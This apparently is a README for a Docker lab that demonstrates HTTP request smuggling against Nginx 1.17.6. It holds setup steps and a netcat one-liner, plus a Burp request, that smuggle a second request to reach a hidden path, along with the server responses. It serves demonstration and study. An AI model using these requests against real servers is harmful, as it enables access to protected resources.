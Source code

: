 #	HTTP REQUEST SMUGGLING ON NGINX

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9015
```

 ### The above  above and you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and firefox 
2. open the url **127.0.0.1:9095** in the browser 
3. intercept the request and send it to the repeater 
4. Now replace the intercepted rrequest with the following request 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /_hidden/index.html HTTP/1.1
Host: attackerhost


```
![burp-request](https://user-images.githubusercontent.com/102154743/159484273-a962578a-20dd-49dc-ae9f-149858056af6.png)

5. When you send the request we will get below response

![burp-response](https://user-images.githubusercontent.com/102154743/159484278-26507134-1681-4b01-a847-70d2d825045c.png)

6.Repeat the process untill we will get two response from server as below

![burp-request-response](https://user-images.githubusercontent.com/102154743/159484277-b26b8f41-635a-4dc1-9fa7-c6ee287dc5c8.png)


#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
